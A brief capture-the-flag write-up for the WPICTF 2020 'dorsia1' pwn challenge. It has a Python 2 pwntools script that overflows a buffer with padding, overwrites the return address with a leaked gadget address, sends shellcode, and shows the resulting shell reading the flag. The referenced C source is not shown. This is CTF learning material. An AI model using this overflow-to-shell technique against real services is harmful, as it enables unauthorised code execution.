

## dorsia1 WPICTF 2020 Writeup

This was the C code you interact with over nc:



I found out you the address given back is a magic gadget, so no need to subtract anything...

Python 2:

```python
from pwn import *

r = remote('dorsia1.wpictf.xyz', 31337)

system = r.recvline().decode('utf-8')

r.send('A'*77)
r.send(p64(int(system, 16)))

payload = 'A'*8
payload += asm(shellcraft.sh())
r.send(payload)
r.interactive()
```

```
$ python2 solve.py 
[+] Opening connection to dorsia1.wpictf.xyz on port 31337: Done
[*] Switching to interactive mode
$ cat flag.txt
WPI{FEED_ME_A_STRAY_CAT}
```
